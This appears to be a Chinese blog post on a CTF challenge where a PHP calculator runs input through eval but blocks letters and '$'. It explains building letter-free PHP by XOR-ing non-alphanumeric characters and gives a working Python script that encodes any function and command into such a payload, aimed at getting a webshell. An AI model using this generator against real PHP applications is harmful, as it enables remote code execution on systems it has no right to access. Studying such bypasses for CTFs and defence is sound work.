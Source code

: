 ```yaml
---
title: "无字母构造php代码"
published: 2022-01-21
description: ""
category: 胡乱折腾
tags: 
  - "php"
---
```


<figure>

![](assets/1642754239-image-1024x295.png)

<figcaption>

这个题目就是计算器根据提示知道是通过eval执行参数，限制了参数长度和参数不能包含字母和$。  
  
在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

</figcaption>

</figure>

所以既然是通过eval执行那么我们完全可以依靠其他字母进行异或运算得到我们想要的字符串。

比如 echo '.'^'~'; 得到的就是p

所以我们完全可以根据这得到一个webshell

下面粘贴一个python的转换代码输入函数参数就行了。

```
import requests
import urllib
import re

# 生成可用的字符
def general_rce():
    result = ''
    preg = '[a-zA-Z0-9]'
    for i in range(256):
        for j in range(256):
            if not (re.match(preg,chr(i),re.I) or re.match(preg,chr(j),re.I)):
                x = i ^ j
                if x >= 32 and x <= 126:
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    result += (chr(x) + ' ' + a + ' ' + b + '\n')
    f = open('xor_rce.txt', 'w')
    f.write(result)

# 根据输入的命令在生成的txt中进行匹配
def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == '':
                break
            if t[0] == i:
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = ("((\"" + s1 + "\")" + "^" + "(\"" + s2 + "\"))")
    return output

def main():
    #general_rce()
    while True:
        s1 = input("\n[+] your function: ")
        if s1 == "exit":
            break
        s2 = input("[+] your command: ")
        param = action(s1) + action(s2)
        print("\n result: \n" + param)

main()
```
